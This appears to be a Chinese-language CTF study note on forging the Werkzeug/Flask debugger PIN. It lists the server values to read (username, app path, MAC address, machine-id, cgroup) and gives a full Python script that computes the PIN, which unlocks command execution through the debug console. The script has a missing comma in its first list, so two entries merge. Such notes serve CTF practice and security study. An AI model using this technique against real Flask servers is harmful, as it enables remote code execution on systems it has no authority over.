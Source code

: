 tags:: CTF/RCE, werkzeug

- https://ctf.anzu.link/pages/204626/
- # 原理
	- 读取到某些敏感信息后，利用敏感信息算出和受害者同样的PIN, 然后使用PIN控制flask执行命令
	- 貌似对werkzeug通用
- # PIN生成方法
	- PIN生成代码在`/home/user/.local/lib/python3.10/site-packages/werkzeug/debug/__init__.py`这个文件内
	- 需要获取到`probably_public_bits`和`private_bits`两个数组内的内容
	- `probably_public_bits`
		- `[0]`: 用户名
		- `[1]`: modname, 不魔改的话就是`flask.app`
		- `[2]`: `getattr(app, '__name__', getattr(app.__class__, '__name__'))`的运行结果，一般是`Flask`
		- `[3]`: app类的存储目录
			- 类似于`/home/user/.local/lib/python3.10/site-packages/flask/app.py`
	- `private_bits`
		- `[0]`: 十进制表示的服务器MAC
			- 可以用`int("00:16:3e:5e:6c:00".replace(":", ""), 16)`转换
		- `[1]`: 基于两个文件内容生成，各个OS的生成方法不同，以下是Linux的生成方法：
			- 获取"/etc/machine-id"或"/proc/sys/kernel/random/boot_id"的内容
			- 获取/proc/self/cgroup的内容，然后按照`/`分段，获取最后一段
			- 拼接上面获得的两段bytes
- # PIN生成脚本
	- 新版flask的生成方法和老版不一样
	- ```python
	  import hashlib
	  from itertools import chain
	  
	  rv, num = None, None
	  
	  probably_public_bits = [
	      'user'# 用户名
	      'flask.app',# modname
	      'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	      '/home/user/.local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
	  ]
	  
	  private_bits = [
	      '95535655936',# str(uuid.getnode()),  /sys/class/net/ens33/address
	      '2c2781498c424bcf86b4d5aa3c0d27faapp-glib-codium-1239.scope'# /etc/machine-id的内容+/proc/self/cgroup的结尾
	  ]
	  
	  h = hashlib.sha1()
	  for bit in chain(probably_public_bits, private_bits):
	      if not bit:
	          continue
	      if isinstance(bit, str):
	          bit = bit.encode("utf-8")
	      h.update(bit)
	  h.update(b"cookiesalt")
	  
	  cookie_name = f"__wzd{h.hexdigest()[:20]}"
	  
	  if num is None:
	      h.update(b"pinsalt")
	      num = f"{int(h.hexdigest(), 16):09d}"[:9]
	  
	  if rv is None:
	      for group_size in 5, 4, 3:
	          if len(num) % group_size == 0:
	              rv = "-".join(
	                  num[x : x + group_size].rjust(group_size, "0")
	                  for x in range(0, len(num), group_size)
	              )
	              break
	      else:
	          rv = num
	  
	  print(rv)
	  
	  ```
